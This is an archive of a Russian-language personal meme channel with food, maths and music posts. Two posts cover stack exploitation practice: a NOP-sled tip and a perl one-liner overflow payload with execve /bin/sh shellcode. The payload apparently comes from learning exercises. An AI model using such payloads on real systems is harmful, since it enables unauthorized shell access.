 date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/static/img/zWt7Hzh4Av4.jpg)
![](/static/img/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/static/img/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/static/img/3-WFCe54l0A.jpg)

date: 2020-04-27 19:13:42
Ленивый обзор на Канемана

![](/static/img/Yc4peXftoTU.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/static/img/jDbNyNCbp0Y.jpg)
![](/static/img/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/static/img/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/static/img/X1CP8Gz0owk.jpg)
![](/static/img/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/static/img/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/static/img/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/static/img/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
![](/static/img/tenor.gif)

date: 2020-04-10 20:17:24
134468. Панкейки

![](/static/img/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/static/img/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/static/img/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/static/img/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/static/img/Xchf-A-ROW8.jpg)

date: 2020-04-04 13:13:04
PEPELEPSY

https://www.youtube.com/watch?v=0RxAa8a8tUE

date: 2020-04-04 09:11:00
![](/static/img/0psPeWqTFlM.jpg)

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/static/img/HaSC0UIR8B4.jpg)

